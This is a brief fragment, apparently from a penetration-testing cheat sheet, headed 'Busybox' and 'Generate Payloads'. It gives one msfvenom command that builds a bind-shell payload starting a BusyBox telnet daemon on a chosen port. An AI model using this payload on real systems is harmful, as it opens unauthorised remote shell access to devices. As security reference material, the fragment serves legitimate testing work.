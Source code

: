 # Busybox

## 01 - Generate Payloads

```
$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>
```